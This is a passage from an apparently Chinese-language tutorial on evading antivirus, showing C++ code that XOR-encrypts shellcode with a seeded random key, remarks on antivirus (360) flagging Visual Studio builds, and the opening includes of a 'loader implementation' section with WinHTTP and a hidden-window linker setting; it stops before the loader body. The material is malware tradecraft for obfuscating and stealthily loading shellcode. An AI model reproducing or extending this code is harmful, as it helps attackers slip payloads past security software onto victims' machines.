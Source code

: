     unsigned char* decrypt(unsigned char* input, int len, unsigned int key) {  
        unsigned char* output = new unsigned char[len];  
        srand(key);  
        for (int i = 0; i < len; i++) {  
            output[i] = input[i] ^ (rand() % len + 1);  
            output[i] = output[i] ^ key;  
        }  
        return output;  
    }  
      
    int main() {  
        // 加密前的shellcode  
        unsigned char input[] = "..."   
    // 6位数的密钥  
        unsigned int key = 454545;  
        int len = sizeof input - 1;  
      
        cout << "Original message: " << input << endl;  
      
        unsigned char* encrypted = encrypt(input, len, key);  
        cout << "Encrypted message: ";  
        for (int i = 0; i < len; i++)  
            printf("\\x%x", encrypted[i]);  
        cout << endl;  
      
        unsigned char* decrypted = decrypt(encrypted, len, key);  
        cout << "Decrypted message: ";  
        for (int i = 0; i < len; i++)  
            printf("%c", decrypted[i]);  
      
        delete[] encrypted;  
        delete[] decrypted;  
      
        return 0;  
    }  
      
    

具体加密算法就是，先进行异或加密，之后根据key生成随机值再来一次异或加密。

生成后的加密code

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622113355.png)

还有就是一个vs工具集的东西，vs2022反正很多已经被360智能学习日常误杀了，编译hello也一样。反正vs的东西都换换玩说不定有惊喜

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622113357.png)

## 3.2.加载器实现

    
    
    #include <iostream>  
    #include <Winsock2.h>  
    #include <iphlpapi.h>  
    #include<Windows.h>  
    #include <chrono>  
    #include <thread>  
    #include<winhttp.h>  
    #pragma comment(lib,"Winhttp.lib")  
    #pragma comment(lib, "iphlpapi.lib")  
    #pragma comment( linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"" ) // 设置入口地址  
    using namespace std;  
      